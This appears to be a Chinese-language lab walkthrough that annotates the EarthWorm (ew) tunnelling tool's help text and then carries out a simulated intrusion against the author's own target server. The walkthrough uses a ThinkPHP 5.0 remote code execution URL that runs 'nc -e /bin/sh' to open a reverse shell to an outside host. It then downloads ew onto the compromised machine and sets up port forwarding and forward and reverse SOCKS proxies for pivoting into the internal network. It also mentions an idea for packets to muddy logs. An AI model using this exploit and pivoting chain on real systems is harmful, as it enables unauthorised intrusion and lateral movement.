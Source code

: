 
# - -help 
```
VERSION : free 1.0 
 ./xxx ([-options] [values])*
 options :
 Eg: ./xxx -s ssocksd -h 
 -s state setup the function.You can pick one from the 
 following options:
 ssocksd , rcsocks , rssocks , 
 lcx_listen , lcx_tran , lcx_slave
 # -s 选项选择连接模式，除了lcx的三种模式还有ssocksd正向SOCKS V5服务器、（rcsocks(公网监听转发主机)、rssocks（目标主机））反弹SOCKS V5服务器。
 -l listenport open a port for the service startup.#监听端口(公网向外转发的端口)
 -d refhost set the reflection host address.#设置反射主机地址（公网IP）
 -e refport set the reflection port.#设置转发到的端口(公网接收端口)
 -f connhost set the connect host address .#设置连接主机地址（参考lcx的h2）要把这台内网主机的流量转发到公网上
 -g connport set the connect port.#设置要转发出去的端口（参考lcx的p2）
 -h help show the help text, By adding the -s parameter,
 you can also see the more detailed help.# 可以使用 ./ew -s [ssocksd|rcsocks|rssocks|lcx_listen|lcx_tran|lcx_slave]等获取关于具体模式的帮助
 -a about show the about pages # 显示关于
 -v version show the version. #显示版本
 -t usectime set the milliseconds for timeout. The default 
 value is 1000 #忙猜设置超时时间，默认1000  英语不好也可以猜
 ......
```

# 参考教程敲一遍（做个小模拟渗透）
**注：** 
- 攻击机位于我的笔记本上的kali nat联网 ip：192.168.153.133
- 被攻击的是校内我搭建的靶机 ip:10.203.87.64  环境：tp5.0
- 公网主机：45.\*.\*.190
## 做个小模拟渗透
利用命令执行弹shell
  
这次用NC弹shell
http://10.203.87.64/tp5/public/index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=nc%20-e%20/bin/sh%2045.76.101.190%201235


公网服务器上面监听：
nc -l -p 1235
下载ew
wget -p /tmp http://45.\*.\*.190/ew_for_linux
chmod +x ew_for_linux

## 使用lcx相关的功能
### 将肉鸡的22端口或者内网中的10.203.87.61的80端口转发到公网上2222端口
`./ew_for_Linux32 -s lcx_slave -d 45.*.*.190 -e 2222 -f 127.0.0.1 -g 6522`

> 第一次用就出了一个问题
```
[root@localhost 45.*.*.190]# ./ew_for_Linux32 -s lcx_slave -d 45.*.*.190 -e 2222 -f 127.0.0.1 -g 6522
-bash: ./ew_for_linux: /lib/ld-linux.so.2: bad ELF interpreter: 没有那个文件或目录
```
> 解决方案到肉鸡上：yum install glibc.i686，那么如果肉鸡上没有安装权限可能就要换工具了

### 公网服务器监听端口转发2222
`./ew_for_Linux32 -s lcx_listen -l 443 -e 2222`


> 中间遇到的小插曲：不知道为什么就是用不了 ssh抓包 握手成功了  请求也发出去了  就是没有相应 也不断开连接，从1.0换到1.2也不行，感觉像是防火墙的问题，但是使用lcx却连接上了，同样的端口ew就不行，一切连接都显示正常，就是不回包，最后仔细检查一遍之后发现公网上的接收端口写反了，居然没有报错！！！

## 测试socks代理

### 打开正向socks V5代理(好像多了一种用工作室的网的方式)
`./ew_for_linux -s ssocksd -l 1080`
**附上终端设置socks代理的配置**
```
# 安装proxychains  kali自带 
cd /usr/local/src
git clone https://github.com/rofl0r/proxychains-ng.git
cd proxychains-ng 
./configure --prefix=/usr --sysconfdir=/etc
make && make install
make install-config
cd .. && rm -rf proxychains-ng
# 配置 
vi /etc/proxychains.conf
socks5  120.xx.xx.xx 1080
# 使用 命令前面加上proxychains
proxychains nmap 10.203.87.61
```

### 反向代理
- 现在公网服务器上
	`./ew_for_Linux32 -s rcsocks -l 1081 -e 8889`
> 1081就是攻击机要连接的端口，8889就是肉鸡连上来的端口 

- 肉鸡上执行
	`./ew_for_Linux32 -s rssocks -d 45.*.*.190 -e 8889`
> ip天公网IP端口和公网上的-e端口一致


# 然后再掏出一个肉鸡来试一下

> 算了 先不试了，想办法做一个发包工具发一些干扰日志的包，，就这样吧


# 相关的代理工具还有
代理工具
LCX
端口转发
RTCP.py
知道创宇 开源端口转发小工具
Fpipe
端口重定向工具
Htran
端口转发+端口复用 Socks5
Netcat
瑞士军刀